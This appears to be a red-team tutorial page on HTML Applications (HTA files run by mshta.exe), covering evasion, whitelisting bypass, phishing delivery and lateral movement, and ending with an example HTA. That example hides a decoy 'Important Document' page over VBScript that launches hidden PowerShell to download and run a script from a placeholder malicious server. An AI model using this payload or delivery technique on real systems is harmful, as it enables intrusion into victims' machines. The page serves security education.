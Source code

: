 
### HTML Applications and HTA Attacks.

HTML Applications (HTAs) are a valuable tool for penetration testers and red teamers due to their ability to execute arbitrary code on a target machine, often bypassing traditional security controls. HTAs are essentially HTML documents that allow embedding and executing scripts in VBScript or JavaScript, making them capable of interacting with the Windows operating system directly.

### 1. So **What is an HTA?**

- HTA stands for **HTML Application**, which is a file with the `.hta` extension.
- These files are executed by the Windows `mshta.exe` executable, which is built into Windows systems, providing direct access to the system and local resources.
- HTAs run with a current user level of trust than a typical web-based HTML page, meaning they are less restricted by the sandbox that limits scripts from accessing system resources.

### 2. **Why are HTAs Useful in Red Teaming?**

- **Evasion**: HTAs can bypass some security defenses that detect and block more common executables (like `.exe` files). Since HTAs are less frequently used, they are less likely to be flagged by traditional antivirus software.
- **Native Code Execution**: They can execute VBScript and JavaScript directly on a machine, allowing for **native code execution**.
- **Built-In Windows Support**: `mshta.exe` is a trusted Windows binary that is allowed by default on most systems, making it an effective tool for attackers leveraging **Living Off the Land** techniques (using legitimate, pre-installed software for malicious purposes).

### 3. **HTAs for Phishing and Payload Delivery**

- **Initial Access**: HTAs can be delivered via phishing emails, where the HTA file is attached or linked. Once the user executes the HTA, the embedded script can download additional payloads, such as PowerShell scripts, or even establish a reverse shell.
- **Payload Delivery**: HTAs can act as an initial loader, executing scripts that fetch further malicious components. For example, an HTA can be used to download and execute a more complex payload, often without alerting the user.

### 4. **HTA for Red Team Operations**

- **Bypassing Application Whitelisting**: Since `mshta.exe` is commonly whitelisted, HTAs provide a way to bypass application whitelisting solutions.
- **Code Obfuscation**: HTAs allow obfuscating JavaScript or VBScript to evade static analysis or detection by endpoint protection solutions.
- **Pivoting and Lateral Movement**: HTAs can also be used during post-exploitation phases to assist in lateral movement across the network by interacting with network resources or launching other system commands.

### 5. **Execution Example**

A simple HTA attack could look like this:

```html
<html>
  <head>
    <title>HTA Attack</title>
    <script language="VBScript">
      Set shell = CreateObject("WScript.Shell")
      shell.Run "powershell -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('<http://malicious-server/payload.ps1>')"
    </script>
  </head>
  <body>
    <h1>Important Document</h1>
    <p>Loading, please wait...</p>
  </body>
</html>
```